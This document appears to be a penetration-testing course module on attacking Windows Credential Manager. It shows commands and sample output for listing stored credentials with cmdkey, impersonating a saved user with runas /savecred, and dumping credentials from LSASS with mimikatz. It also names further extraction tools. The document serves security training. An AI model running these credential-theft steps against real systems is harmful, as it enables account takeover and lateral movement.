


# Attacking Windows Credential Manager  
  
## Windows Vault and Credential Manager  
[Credential Manager](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication#windows-vault-and-credential-manager) is a feature built into Windows since ****Server 2008 R2**** and ****Windows 7****. Thorough documentation on how it works is not publicly available, but essentially, it allows users and applications to securely store credentials relevant to other systems and websites. Credentials are stored in special encrypted folders on the computer under the user and system profiles ([MITRE ATT&CK](https://attack.mitre.org/techniques/T1555/004/)):  
* %UserProfile%\AppData\Local\Microsoft\Vault\  
* %UserProfile%\AppData\Local\Microsoft\Credentials\  
* %UserProfile%\AppData\Roaming\Microsoft\Vault\  
* %ProgramData%\Microsoft\Vault\  
* %SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\  
Each vault folder contains a ****Policy.vpol**** file with AES keys (AES-128 or AES-256) that is protected by DPAPI. These AES keys are used to encrypt the credentials. Newer versions of Windows make use of ****Credential Guard**** to further protect the DPAPI master keys by storing them in secured memory enclaves ([Virtualization-based Security](https://learn.microsoft.com/en-us/windows-hardware/design/device-experiences/oem-vbs)).  
Microsoft often refers to the protected stores as ****Credential Lockers**** (formerly ****Windows Vaults****). Credential Manager is the user-facing feature/API, while the actual encrypted stores are the vault/locker folders. The following table lists the two types of credentials Windows stores:  

| Name | Description |
| ------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Web Credentials | Credentials associated with websites and online accounts. This locker is used by Internet Explorer and legacy versions of Microsoft Edge. |
| Windows Credentials | Used to store login tokens for various services such as OneDrive, and credentials related to domain users, local network resources, services, and shared directories. |
  
  
It is possible to export Windows Vaults to ****.crd**** files either via Control Panel or with the following command. Backups created this way are encrypted with a password supplied by the user, and can be imported on other Windows systems.  
    
Attacking Windows Credential Manager  
```
C:\Users\sadams>rundll32 keymgr.dll,KRShowKeyMgr

```
  
## Enumerating credentials with cmdkey  
We can use [cmdkey](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) to enumerate the credentials stored in the current user's profile:  
    
Attacking Windows Credential Manager  
```
C:\Users\sadams>whoami
srv01\sadams

C:\Users\sadams>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles

```
Stored credentials are listed with the following format:  

| Key | Value |
| ----------- | -------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Target | The resource or account name the credential is for. This could be a computer, domain name, or a special identifier. |
| Type | The kind of credential. Common types are Generic for general credentials, and Domain Password for domain user logons. |
| User | The user account associated with the credential. |
| Persistence | Some credentials indicate whether a credential is saved persistently on the computer; credentials marked with Local machine persistence survive reboots. |
  
The first credential in the command output above, ****virtualapp/didlogical****, is a generic credential used by Microsoft account/Windows Live services. The random looking username is an internal account ID. This entry may be ignored for our purposes.  
The second credential, ****Domain:interactive=SRV01\mcharles****, is a domain credential associated with the user SRV01\mcharles. ****Interactive**** means that the credential is used for interactive logon sessions. Whenever we come across this type of credential, we can use ****runas**** to impersonate the stored user like so:  
    
Attacking Windows Credential Manager  
```
C:\Users\sadams>runas /savecred /user:SRV01\mcharles cmd
Attempting to start cmd as user "SRV01\mcharles" ...

```
  
## Extracting credentials with Mimikatz  
There are many different tools that can be used to decrypt stored credentials. One of the tools we can use is [mimikatz](https://github.com/gentilkiwi/mimikatz). Even within ****mimikatz****, there are multiple ways to attack these credentials - we can either dump credentials from memory using the ****sekurlsa**** module, or we can manually decrypt credentials using the ****dpapi**** module. For this example, we will target the LSASS process with ****sekurlsa****:  
    
Attacking Windows Credential Manager  
```
C:\Users\Administrator\Desktop> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman

...SNIP...

Authentication Id : 0 ; 630472 (00000000:00099ec8)
Session           : RemoteInteractive from 3
User Name         : mcharles
Domain            : SRV01
Logon Server      : SRV01
Logon Time        : 4/27/2025 2:40:32 AM
SID               : S-1-5-21-1340203682-1669575078-4153855890-1002
        credman :
         [00000000]
         * Username : mcharles@inlanefreight.local
         * Domain   : onedrive.live.com
         * Password : ...SNIP...

...SNIP...

```
## Note: Some other tools which may be used to enumerate and extract stored credentials included [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI), [LaZagne](https://github.com/AlessandroZ/LaZagne), and [DonPAPI](https://github.com/login-securite/DonPAPI).  
